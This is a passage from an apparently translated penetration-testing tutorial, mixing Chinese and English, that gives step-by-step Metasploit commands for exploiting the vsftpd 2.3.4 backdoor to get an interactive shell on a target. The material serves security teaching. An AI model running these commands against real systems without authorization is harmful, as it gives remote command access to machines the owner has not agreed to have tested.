 这个方法的先决条件是知道您的 IP 地址，因为它将用于在 Metasploit 中设置 Lhost。让我们从这里了解一些漏洞，以了解如何利用易受攻击的服务。

## 怎么做。。。

1.  Start PostgreSQL and then fire up `msfconsole`:

    ```
          service postgresql start
          msfconsole

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_04_029.jpg)

2.  We will exploit the `vsftpd` vulnerability. Enter the following in the terminal where `msfconsole` is running:

    ```
          search vsftpd
          use exploit/unix/ftp/vsftpd_234_backdoor
          set rhost <Target IP Address>
          set payload cmd/unix/interact
          set lhost <Your IP Address>
          exploit

    ```
